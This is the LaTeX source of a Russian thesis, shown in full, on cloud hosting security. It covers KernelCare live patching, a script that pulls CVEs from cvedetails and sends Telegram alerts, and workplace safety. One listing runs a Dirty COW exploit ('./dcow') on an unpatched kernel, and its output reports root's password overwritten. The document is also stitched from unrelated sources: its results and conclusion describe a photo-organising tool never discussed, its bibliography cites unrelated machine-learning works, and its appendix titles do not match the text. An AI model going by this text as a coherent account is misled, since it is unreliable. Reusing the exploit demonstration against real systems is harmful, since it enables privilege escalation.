Подобные технологии позволяют применять патчи для ядра Linux без перезагрузки.

Технология KernelCare является коммерческим решением и позволяет без особых проблем в оперативном порядке использовать патчи для ядра, в том числе патч для CVE-2016-5195.

Пример эксплуатации уязвимости при использовании KernelCare:

\begin{lstlisting}
# /usr/bin/kcarectl --uname
3.10.0-327.36.3.el7.x86_64
# /usr/bin/kcarectl --patch-info  | grep CVE-2016-5195 -A3 -B3
kpatch-name: 3.10.0/0001-mm-remove-gup_flags-FOLL_WRITE-games-from-__get_user-327.patch
kpatch-description: mm: remove gup_flags FOLL_WRITE games from __get_user_pages()
kpatch-kernel: >kernel-3.10.0-327.36.2.el7
kpatch-cve: CVE-2016-5195
kpatch-cvss: 6.9
kpatch-cve-url: https://access.redhat.com/security/cve/cve-2016-5195
kpatch-patch-url: https://git.kernel.org/linus/19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619
$ ./dcow
Running ...
\end{lstlisting}

Как видно из вывода команд, эксплоит не работает при включенном KernelCare.

Пример отключения KernelCare и попытка эксплуатации уязвимости:
\begin{lstlisting}
# /usr/bin/kcarectl --unload
Updates already downloaded
KernelCare protection disabled, kernel might not be safe
# su - dcow
$ cd CVE-2016-5195/
$ ./dcow
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
\end{lstlisting}

В облачной среде, где при каждой минуте простоя поставщик облачных услуг теряет деньги, использование подобных технологий позволяет существенно уменьшить время простоя серверов.

\subsection{Мониторинг уязвимостей в программном обеспечении}

Для своевременного реагирования на уязвимости в ПО, используемом в облачной среде необходим их мониторинг.
В ходе исследования различных открытых баз уязвимостей и систем мониторинга не было обнаружено автоматизированных инструментов, позволяющих интегрировать поиск уязвимостей в систему мониторинга.

Для написания такой системы использовалась открытая база уязвимостей сайта www.cvedetails.com \cite{cvedetails}.
Сайт cvedetails позволяет в ограниченном режиме получить доступ к базе посредством \hyperlink{json}{JSON} API.

Возможна интеграция программы с любой системой мониторинга или запуском по расписанию.
Существует поддержка указания даты поиска уязвимостей, по умолчанию скрипт ищет уязвимости на сегодняшний день:
\begin{lstlisting}
$ ./vulncontrol.py -d 2017-02-18 -m 5
CVE-2017-6074 9.3 http://www.cvedetails.com/cve/CVE-2017-6074/
CVE-2017-6001 7.6 http://www.cvedetails.com/cve/CVE-2017-6001/
CVE-2017-5986 7.1 http://www.cvedetails.com/cve/CVE-2017-5986/
Telegram alert not sent
\end{lstlisting}

Программа получает данные от сайта в JSON-формате вида:
\begin{lstlisting}
{
    "cve_id": "CVE-2017-5551",
    "cvss_score": "3.6",
    "cwe_id": "264",
    "exploit_count": "0",
    "publish_date": "2017-02-06",
    "summary": "The simple_set_acl function in fs/posix_acl.c ...",
    "update_date": "2017-02-09",
    "url": "http://www.cvedetails.com/cve/CVE-2017-5551/"
}
\end{lstlisting}


Поддерживается интеграция приложения с мессенджером Telegram (рис. \ref{tscreen}).

\addimg{tscreen}{0.7}{Уведомление программы в Telegram}{tscreen}

Описание кодов выхода программы представлено в табл. \ref{exitcodes}:
\begin{table}[H]
  \caption{Коды выхода программы}\label{exitcodes}
  \begin{tabular}{|l|l|l|}
  \hline Код & Сообщение & Отправлено в Telegram? \\
  \hline 0 & Уязвимости не найдены & Нет \\
  \hline 1 & Уязвимости найдены & Нет \\
  \hline 2 & Уязвимости найдены & Да \\
  \hline 3 & Уязвимости найдены & Нет, неверные токен и идентификатор \\
  \hline
  \end{tabular}
\end{table}

Исходный код программы представлен в прил. \hyperlink{app-a}{А}.

\clearpage
   % Экспериментальные исследования
\section{Анализ полученных результатов}

В ходе проведенной работы спроектировано программное средство с учетом поставленных требований. 

Разработаны спецификация и архитектура программного средства, в рамках которых были описаны структура базы данных, классы и модули.

Данное программное решение является удобным инструментом для хранения и организации в автоматическом режиме загруженных фотографий. Целевой аудиторией являются люди, занимающихся производством фотоконтента.

\clearpage
      % Анализ полученных результатов

\section{Безопасность жизнедеятельности}

В разделе выполнен анализ условий труда администратора и их требованиям освещенности, электробезопасности, микроклимата, шума, требованиям к оборудованию, к организации рабочего места пользователя ПК.

\subsection{Краткая характеристика помещения}

Согласно санитарным нормам, ширина стола должна быть не менее 0.6~м, глубина не менее 0.8~м, также необходимо обеспечить расстояние между боковыми поверхностями мониторов не менее 1.2~м.

На рис. \ref{roomplan} изображена планировка и размещение оборудования на рабочем месте.
\addimghere{roomplan}{0.85}{Планировка и размещение оборудования на рабочем месте \\
1 --- дверь; 2 --- тумбочка; 3 --- холодильник; 4 --- стол; 5 --- кресло; 6 --- ноутбук; 7 --- монитор; 8 --- планшет; 9 --- кровать; 10 --- окно; 11 --- шкаф; 12 --- обеденный стол}{roomplan}

\subsection{Микроклимат}

Метеорологические условия (микроклимат) характеризуются следующими параметрами:
\begin{itemize}
  \item температурой воздуха;
  \item относительной влажностью;
  \item скоростью движения воздуха на рабочем месте;
  \item барометрическим давлением.
\end{itemize}

В комнате, где находится персональный компьютер, должен поддерживаться определенный температурный режим для нормальной эксплуатации ЭВМ и условий труда администратора.

Параметры воздушной среды в кабинете должны соответствовать требованиям ГОСТ 12.1.005-88 <<Общие санитарно-гигиенические требования к воздуху санитарной зоны>>.
При этом необходимо учитывать, что работа администратора относится к разряду легких работ (разряд 1а --- затраты энергии до 150 ккал/час), а кабинет --- к производственным помещениям.

В помещении имеются источники избыточного тепла:
\begin{itemize}
  \item тепловыделение от ноутбука;
  \item тепло, выделяемое персоналом.
\end{itemize}

Тепловыделение от светильников отсутствует, так как используется люминесцентное освещение.
Для поддержания оптимального уровня температуры используется как естественная вентиляция (через двери и окна путем проветривания), так и искусственная (при помощи вентилятора), так как в текущих условиях проживания невозможно установить кондиционер.
Для обогрева помещения в зимнее время используется водяное отопление.

\subsection{Освещение}

В зависимости от необходимости, производственное освещение в кабинете может быть как естественным, создаваемым непосредственно солнцем и диффузным (рассеянным) светом, так и искусственным, осуществляемым электрическими лампами.
Естественное освещение характеризуется тем, что создаваемое освещение изменяется в очень широких пределах, в зависимости от времени года, дня и метеорологических факторов.
При выборе норм естественного освещения учитывается разряд выполняемых работ, система освещения, коэффициент солнечности, коэффициент светового климата \cite{oot}.

Мероприятия, за счет которых выполняются требования норм СП 52.13330.2011 <<Естественное и искусственное освещение>>:
\begin{itemize}
  \item проверка, не реже одного раза в год, соответствия освещенности на рабочей поверхности нормам искусственного освещения;
  \item очистка светильников не реже одного раза в три месяца;
  \item протирка окон (стекол) не реже двух раз в год.
\end{itemize}

\subsection{Шум и вибрация}

Источниками шума в помещении являются:
\begin{itemize}
  \item непосредственно персональный компьютер (вентиляторы охлаждения процессора и видеокарты);
  \item разговорная речь;
  \item шум вне рабочей зоны.
\end{itemize}

Постоянный шум оказывает отрицательное воздействие на человека, как биологически, так и психологически, что отражается на качестве работы и общей производительности труда сотрудников.
Снижается производительность труда и повышается количество допущенных ошибок, некоторые из которых могут быть критическими.
Допустимый уровень звука --- 50~дБА, при работающем оборудовании в кабинете ожидаемый уровень звука --- 40-48~дБА.

\subsection{Пожаробезопасность}

Пожар в помещении может возникнуть при взаимодействии горючих веществ, окислителя (условия пожара) и источников воспламенения (причина пожара).
Горючие вещества в кабинете: деревянные столы, двери, полы (паркет), покрытия стен, изоляция соединительных кабелей, жидкости для протирки узлов компьютера и другие.

Возможные источники и причины возникновения пожара:
\begin{itemize}
  \item эксплуатация неиспользованного оборудования;
  \item неправильное применение электронагревательных приборов;
  \item неисправность проводки;
  \item короткое замыкание;
  \item нарушение правил пожарной безопасности.
\end{itemize}

Для отвода тепла от персонального компьютера необходимы работающие вентиляторы, помещение проветривается, поэтому кислород, как окислитель процессов горения, имеется в достаточном количестве.
Исходя из этого, помещение кабинета, согласно нормам СП 2.13130.2012 <<Системы противопожарной защиты. Обеспечение огнестойкости объектов защиты>>, по степени пожаробезопасности следует отнести к категории Д (помещения, в которых в обращении находятся негорючие вещества и материалы в холодном состоянии).

В качестве средств тушения пожара применяются углекислотные огнетушители, используемые для тушения электроустановок, находящихся под напряжением.

\subsection{Электробезопасность}

В кабинет электроэнергия поступает для питания персональных компьютеров и электрического освещения.
Питание осуществляется от трехфазной сети переменного тока напряжением 380/220~В (+10..-15\%) частотой 50~Гц (+1~Гц).

Поскольку помещение сухое (относительная влажность не более 75\%), температура не превышает 30~°С, то, согласно ПУЭ 7 (<<Правилам устройства электроустановок>>), оно не относится к категории помещений повышенной опасности.
Однако возможна потенциальная опасность поражения людей электрическим током.
Источниками и причинами опасности являются:
\begin{itemize}
  \item открытые токопроводящие части оборудования, кабельной проводки;
  \item неисправность электрооборудования, электрических розеток;
  \item короткое замыкание в результате повреждения изоляции.
\end{itemize}

Для предотвращения поражения электрическим током потребителей электроэнергии в кабинете необходимо предусмотреть следующие технические мероприятия:
\begin{itemize}
  \item все токопроводящие части оборудования и кабельной проводки должны быть защищены ограждающими кожухами;
  \item все металлические конструкции, которые могут оказаться под напряжением в результате короткого замыкания, должны быть заземлены, защищены и выполнено защитное   отключение.
\end{itemize}

В качестве заземляющих проводников должны быть использованы элементы металлических конструкций, металлическое обрамление кабельных каналов.
Здание должно быть оборудовано комплексом мер, предотвращающих попадание энергии молнии в электрическую сеть, а также поражение людей, для чего на здание устанавливаются громоотводы.

Кроме технических, необходимо проведение организационных мероприятий:
\begin{itemize}
  \item к работе с электроустановками допускаются только лица, прошедшие инструктаж и проверку знаний правил техники безопасности в соответствии с ГОСТ 12.1.009-76, ПТЭ и ПТБ;
  \item периодически осуществляется контроль сопротивления электрической изоляции токоведущих частей (в соответствии с требованиями ПУЭ 7, оно не должно быть ниже 0.5~мм по отношению к корпусу ЭВМ).
\end{itemize}

\subsection{Эргономика и техническая эстетика}

Эффективность работы администратора (программиста) во многом зависит от организации рабочих мест.
Рабочее положение администратора --- сидячее.
Стул по возможности должен быть регулируемым по высоте, поскольку клавиатура и дисплей компьютеров должны находиться в зоне наилучшего обзора.
Для сохранения работоспособности имеет большое значение выбор основной рабочей позы.

Техническая эстетика позволяет снижать нервное утомление и вредные воздействия на функции организма в процессе труда.
Огромное значение в эстетическом оформлении производства имеет цвет.
Окраска, форма, внешний вид производственного помещения и оборудования улучшают условия освещения, а также психологическое состояние человека. Стены имеют светло-зеленый цвет, не вызывающий раздражения, потолок --- белый цвет, что обеспечивает максимальное отражение света.

Рассматриваемое помещение соответствует требованиям ГОСТ 12.2.032-78 <<Рабочее место при выполнении работ сидя. Общие эргономические требования>>.

\subsection{Режим труда и отдыха}

Работа администратора относится к категории работ связанных с опасными и вредными условиями труда.
В процессе труда на администратора оказывают действие следующие опасные и вредные производственные факторы, физические:
\begin{itemize}
  \item повышенный уровень статического электричества;
  \item повышенный уровень шума;
  \item повышенные уровни запыленности воздуха рабочей зоны;
  \item повышенная яркость светового изображения;
  \item повышенный или пониженный уровень освещенности;
  \item неравномерность распределения яркости в поле зрения;
  \item повышенное значение напряжения в электрической цепи, замыкание которой может произойти через тело человека.
\end{itemize}

Рациональный режим труда и отдыха --- это правильное чередование работы и перерывов в ней в течение смены, суток, недели, года, устанавливаемое с целью обеспечения высокой производительности труда и сохранения здоровья работающих.
Основным перерывом является перерыв на обед.
Обеденный перерыв при 8-часовой рабочей смене устанавливается продолжительностью не менее 30~мин через 4 часа после начала работы.

Режим отдыха складывается из нескольких компонентов:
\begin{itemize}
  \item времени на гигиенические процедуры и личные надобности (2-3) от сменного времени независимо от вида труда;
  \item времени регламентированных перерывов на отдых (входят в состав рабочего времени), определяемого по показателю условий труда или по интегральному показателю снижения работоспособности;
  \item времени микропауз, а также времени обеденного перерыва (нерабочего времени), остающегося от приема пищи.
\end{itemize}

Режим труда и отдыха должен быть построен в соответствии с особенностями трудовой деятельности пользователей персонального компьютера и характером функциональных изменений со стороны различных систем организма работников.

\subsection{Выводы}

В ходе выполнения работы, была дана краткая характеристика помещения и выполняемых работ.
Составлен план помещения и размещения оборудования.
Были определены оптимальные параметры микроклимата, шума, освещения.
Даны рекомендации по эргономике и режиму труда.

Наиболее неблагоприятными факторами являются микроклимат и искусственное освещение, обеспечиваемое люминесцентными лампами.

\clearpage % Безопасность жизнедеятельности

\anonsection{Заключение}

В ходе выпускной квалификационной работы изучена предметная область, проанализированы существующие решения, выявлены их недостатки, сформулированы функциональные требования, отличающие программное решение от аналогов с выгодной стороны.

Спроектировано программное средство с учетом поставленных требований.
Разработаны спецификация и архитектура программного средства, в рамках которых были описаны структура базы данных, классы и модули.

Выбраны и обоснованы технологии реализации программного решения, согласно требованиям процесса разработки.

Разработан прототип продукта согласно документации. 
Продукт может быть запущен в эксплуатацию при условии дополнительной разработки.
Разработанное решение является удобным инструментом для хранения и организации в автоматическом режиме загруженных фотографий.

Продукт может быть запущен в эксплуатацию при условии дополнительной разработки.

\clearpage % Заключение
\anonsection{Перечень сокращений и условных обозначений}

\hypertarget{dc}{ЦОД --- центр обработки данных}

\hypertarget{soft}{ПО --- программное обеспечение}

\hypertarget{gnu}{GNU --- проект по разработке свободного программного обеспечения}

\hypertarget{gpl}{GPL --- General Public License, универсальная общественная лицензия}

\hypertarget{ram}{ОЗУ --- оперативное запоминающее устройство}

\hypertarget{ssd}{SSD --- Solid State Drive, твердотельный накопитель}

\hypertarget{nist}{NIST --- National Institute of Standards and Technology, Национальный институт стандартов и технологий}

\hypertarget{storage}{СХД --- система хранения данных}

\hypertarget{saas}{SaaS --- Software as a Service, программное обеспечение как услуга}

\hypertarget{paas}{PaaS --- Platform as a Service, платформа как услуга}

\hypertarget{iaas}{IaaS --- Infrastructure as a Service, инфраструктура как услуга}

\hypertarget{os}{ОС --- операционная система}

\hypertarget{soa}{SOA --- service-oriented architecture, сервис-ориентированная архитектура}

\hypertarget{aws}{AWS --- Amazon Web Services}

\hypertarget{gce}{GCE --- Google Compute Engine}

\hypertarget{omg}{OMG --- Object Management Group}

\hypertarget{it}{ИТ --- информационные технологии}

\hypertarget{csa}{CSA --- Cloud Security Alliance}

\hypertarget{dmtf}{DMTF --- Distributed Management Task Force}

\hypertarget{snia}{SNIA --- Storage Networking Industry Association}

\hypertarget{ogf}{OGF --- Open Grid Forum}

\hypertarget{occ}{OCC --- Open Cloud Consortium}

\hypertarget{oasis}{OASIS --- Organization for the Advancement of Structured Information Standards}

\hypertarget{ietf}{IETF --- Internet Engineering Task Force, инженерный совет Интернета}

\hypertarget{itu}{ITU --- International Telecommunications Union, Международный институт электросвязи}

\clearpage

\hypertarget{etsi}{ETSI --- European Telecommunications Standards Institute, Европейский институт телекоммуникационных стандартов}

\hypertarget{ansi}{ANSI --- American national standards institute, Американский национальный институт стандартов}

\hypertarget{idps}{IDPS --- Intrusion Detection and Prevention Systems, руководство по системам обнаружения и предотвращения вторжений}

\hypertarget{ec2}{EC2 --- Elastic Compute Cloud, веб-сервис компании Amazon, предоставляющий вычислительные мощности в облаке}

\hypertarget{api}{API --- Application Programming Interface, интерфейс создания приложений}

\hypertarget{vcpu}{vCPU --- Virtual Central Processing Unit, виртуальное процессорное ядро}

\hypertarget{ami}{AMI --- Amazon Machine Images}

\hypertarget{ebs}{EBS --- Elastic Block Store, сервис постоянного хранилища блочного уровня для использования с инстансами Amazon}

\hypertarget{spi}{SPI --- Secutiry Parameter Index, индекс параметра обеспечения безопасности}

\hypertarget{bgp}{BGP --- Border Gateway Protocol, протокол граничного шлюза}

\hypertarget{as}{AS --- автономная сетевая система}

\hypertarget{dns}{DNS --- Domain Name System, система доменных имен}

\hypertarget{ntp}{NTP --- Network Time Protocol, протокол сетевого времени}

\hypertarget{snmp}{SNMP --- Simple Network Management Protocol, простой протокол сетевого управления}

\hypertarget{nda}{NDA --- Non-disclosure agreement, соглашение о неразглашении}

\hypertarget{ssh}{SSH --- Secure Shell, безопасная оболочка}

\hypertarget{sql}{SQL --- Structured Query Language, язык структурированных запросов}

\hypertarget{xss}{XSS --- Cross-Site Scripting, межсайтовый скриптинг}

\hypertarget{vpn}{VPN --- Virtual Private Network, виртуальная частная сеть}

\hypertarget{mai}{МАИ --- метод анализа иерархии}

\hypertarget{kvm}{KVM --- Kernel-based Virtual Machine, свободный гипервизор}

\hypertarget{is}{ИС --- индекс согласованности}

\hypertarget{ss}{СС --- случайная согласованность}

\clearpage

\hypertarget{ots}{ОС --- отношение согласованности}

\hypertarget{lpr}{ЛПР --- лицо принимающее решение}

\hypertarget{iot}{IoT --- Internet of Things, интернет вещей}

\hypertarget{ddos}{DDoS --- Distributed Denial of Service, распределенная атака на отказ}

\hypertarget{sdn}{SDN --- Software-defined Networking, программно-определяемая сеть}

\hypertarget{cve}{CVE --- Common Vulnerabilities and Exposures, словарь известных уязвимостей}

\hypertarget{id}{ID --- IDentificator, идентификатор}

\hypertarget{cvss}{CVSS --- Common Vulnerability Scoring System, система оценки уязвимостей}

\hypertarget{cow}{COW --- Copy-on-write, копирование при записи}

\hypertarget{arm}{ARM --- Advanced RISC Machine, усовершенствованная RISC-машина}

\hypertarget{grub}{GRUB --- GRand Unified Bootloader, загрузчик операционной системы}

\hypertarget{json}{JSON --- JavaScript Object Notation, текстовый формат обмена данными}

\clearpage
     % Перечень сокращений и условных обозначений
\begingroup 
\renewcommand{\section}[2]{\anonsection{Библиографический список}}
\begin{thebibliography}{00}

\bibitem{conv-neoro}
    Convolutional Neural Networks (LeNet) // 
    DeepLearning 0.1 documentation: website. 
    URL: http://deeplearning.net/tutorial/lenet.html 
    (дата обращения: 19.05.2019).

\bibitem{k-graph}
    D. Eppstein, M. S. Paterson, Frances Yao. 
    On nearest-neighbor graphs // 
    Discrete and Computational Geometry. 
    1997. Т. 17, вып. 3. — С. 263–282.

\bibitem{transfer-learning}
    Lin Y.P., Jung T.P.
    Improving EEG-Based Emotion Classification Using Conditional Transfer Learning //
    Frontiers in Human Neuroscience, 
    Jun 2017.

\bibitem{dbscan-alg}
    Martin Ester, Hans-Peter Kriegel, Jörg Sander, Xiaowei Xu.
    A density-based algorithm for discovering clusters in large spatial databases with noise // 
    Proceedings of the Second International Conference on Knowledge Discovery and Data Mining (KDD-96),
    AAAI Press, 
    1996.

\bibitem{median-linear}
    Michael Cohen, Yin Tat Lee, Gary Miller, Jakub Pachocki, Aaron Sidford. 
    Geometric median in nearly linear time // 
    Proc. 48th Symposium on Theory of Computing (STOC 2016). — Association for Computing Machinery, 
    2016.

\bibitem{web20}
    O'Reilly T. What Is Web 2.0 // 
    O’Reilly Media. 
    2005. 
    URL: https://www.oreilly.com/pub/a/web2/archive/what-is-web-20.html 
    (дата обращения: 20.05.2019).

\bibitem{postgresql-doc}
    PostgreSQL 11.3 Documentation // 
    PostgreSQL 11.3 Documentation: website. 
    http://www.postgresql.org/docs/current/interactive/
    (дата обращения: 10.05.2019).

\bibitem{imagenet-challenge}
    Russakovsky O., Deng J., Su H., Krause J., Satheesh S., Ma S., Huang Z., Karpathy A., Khosla A., Bernstein M., Berg A.C., Fei-Fei. L. 
    ImageNet Large Scale Visual Recognition Challenge // 
    IJCV, 
    2015.

\bibitem{vgg16alg}
    Simonyan K., Zisserman A. 
    Very Deep Convolutional Networks for Large-Scale Image Recognition // 
    Computer Vision and Pattern Recognition, 

\bibitem{java-doc}
    JDK 11. // 
    openjdk.java.net: website. 
    URL: http://openjdk.java.net/projects/jdk/11/
    (дата обращения: 10.05.2019).

\bibitem{love}
    \#love hashtag on instagram // 
    Instagram: website. 
    URL: https://www.instagram.com/explore/tags/love/ 
    (дата обращения: 20.05.2019).

\bibitem{deeplearning4j-book}
    Паттерсон Дж., Гибсон А. 
    Глубокое обучение с точки зрения практика //
    ДМК-Пресс, 
    2018.
    Apr 2015.

\bibitem{spring-book}
    Ю. Козмина, Р. Харроп, К. Шефер, К. Хо. 
    Spring 5 для профессионалов //
    М.: Вильямс, 
    2019.

\end{thebibliography}
\endgroup

\clearpage % Библиографический список

% Приложения
\vspace*{\fill}
\centering{\uppercase{Приложение}}
\vspace*{\fill}

\clearpage

\appsection{Приложение А}
\centering{\uppercase{Исходный код скрипта DDoS Deflate}}
\vspace{\baselineskip}

\lstinputlisting[numbers=left]{inc/ddos-deflate/ddos.conf}

\lstinputlisting[numbers=left]{inc/ddos-deflate/ddos.sh}

\lstinputlisting[numbers=left]{inc/ddos-deflate/ignore.ip.list}

\lstinputlisting[numbers=left]{inc/ddos-deflate/install.sh}

\lstinputlisting[numbers=left]{inc/ddos-deflate/uninstall.sh}

\lstinputlisting[numbers=left]{inc/ddos-deflate/README.md}

\clearpage % Исходный код скрипта DDoS Deflate
\appsection{Приложение Б}
\centering{\uppercase{Руководство пользователя}}
\vspace{\baselineskip}

\addimgapp{1-welcome}{Рис. Б.1 --- Список тарифов на сайте}

\addimgapp{2-order}{Рис. Б.2 --- Для выбора нужного тарифа необходимо нажать кнопку <<ЗАБРАТЬ>> под ним}

\addimgapp{3-registration}{Рис. Б.3 --- Регистрация в биллинге для возможности заказа услуги}

\addimgapp{4-order-service}{Рис. Б.4 --- Пример заказа услуги в биллинге}

\addimgapp{5-bill-services}{Рис. Б.5 --- Выбор типа услуги}

\addimgapp{6-basket}{Рис. Б.6 --- Список услуг в корзине}

\addimgapp{7-orderlist}{Рис. Б.7 --- Список заказанных услуг в разделе хостинга}

\addimgapp{8-costs}{Рис. Б.8 --- Список расходов на услуги}

\addimgapp{9-hosting-user}{Рис. Б.9 --- Настройки пользователя хостинга}

\addimgapp{10-hosting-filemgr}{Рис. Б.10 --- Файловый менеджер в панели управления хостингом}

\addimgapp{11-hosting-ftp}{Рис. Б.11 --- Список FTP-пользователей}

\addimgapp{12-hosting-webscripts}{Рис. Б.12 --- Возможность установки популярных CMS из каталоге Web-скриптов}

\addimgapp{13-hosting-www}{Рис. Б.13 --- Управление www-доменами}

\addimgapp{14-hosting-backup}{Рис. Б.14 --- Управление резервными копиями}

\addimgapp{15-hosting-mail}{Рис. Б.15 --- Управление почтовыми ящиками}

\addimgapp{16-ovz-containers}{Рис. Б.16 --- Список контейнеров в панели управления OpenVZ}

\addimgapp{17-ovz-plots}{Рис. Б.17 --- Отчет о нагрузке контейнера}

\addimgapp{18-ovz-journal}{Рис. Б.18 --- Журнал посещений панели OpenVZ}

\addimgapp{19-kvm-vm}{Рис. Б.19 --- Список виртуальных машин в панели управления KVM}

\addimgapp{20-kvm-isos}{Рис. Б.20 --- Список ISO-образов}

\addimgapp{21-bill-request}{Рис. Б.21 --- Запрос к технической поддержке}

\addimgapp{22-wiki}{Рис. Б.22 --- Регистрация в wiki}

\addimgapp{23-wiki-question}{Рис. Б.23 --- Пример вопроса в wiki}

\clearpage % Руководство пользователя


\includepdf{act} % Акт внедрения

\end{document}
%%% Конец документа
